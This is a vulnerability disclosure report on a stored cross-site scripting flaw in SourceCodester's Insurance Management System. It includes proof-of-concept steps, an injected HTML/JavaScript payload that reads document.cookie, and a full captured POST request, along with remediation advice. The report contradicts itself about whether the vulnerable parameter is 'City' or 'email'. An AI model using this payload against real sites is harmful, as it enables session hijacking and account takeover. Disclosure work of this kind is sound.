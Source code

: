 # Stored Cross-Site Scripting Vulnerability in SourceCodester Online Insurance Management System

## Vendor and Product Information:

- **Vendor:** Sourcecodester
- **Product:** Insurance Management System
- Product URL: [Insurance Management System](https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html)

## Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Insurance Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "City" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.

## Issue Details

- **Vulnerability Name:** Stored XSS in City
- **Severity: High**
- **Affected URL:** http://localhost/e-insurance/Script./core/new_account
- **Affected Parameter:** email
- **HTTP Method:** POST

## Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "City" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "City" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.

## Proof Of Concept

1. Configure a web proxy in your browser.
2. Navigate to the URL in the browser http://localhost/e-insurance/Script./ and click on “**New Account**”.
3. Fill in the desired data in the input fields and click on Create Account. Intercept the request in the web proxy. Modify the **email** parameter as shown below and send the request to the server.
    
    ```bash
    fname=demo&lname=Demo&gender=Male&phone=889790987&city=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&street=Demo&email=demo@demo.com&password=12345678&submit=1
    ```
    
4. The account is successfully created.
5. In the browser having admin account logged in, navigate to the users section and see the XSS being executed with the authentication cookies as well, which will result in the Account Takeover of **Admin.**

https://drive.google.com/file/d/1yTIeXAPs3PJcQwj9gxhvs92zTdBwKGVB/view?usp=sharing

## Payload:

```bash
fname=demo&lname=Demo&gender=Male&phone=889790987&city=Demo&street=Demo&email=<h1+onmouseover=confirm(document.cookie)>Demo</h1>@demo.com&password=12345678&submit=1
```

## Request:

```bash
POST /e-insurance/Script./core/new_account HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 350
Cookie: PHPSESSID=klf9ln8ogrll5cv5gdusqnln9u; __insuarance__logged=1; __insuarance__key=AGURMU83J20CB8T91A05

fname=demo&lname=Demo&gender=Male&phone=889790987&city=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&street=Demo&email=demo@demo.com&password=12345678&submit=1
```

## Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. 

## Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.

## References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

## Weakness Enumeration:

[CWE-79](https://cwe.mitre.org/data/definitions/79.html)

---

This report highlights the Stored XSS vulnerability present in the city parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.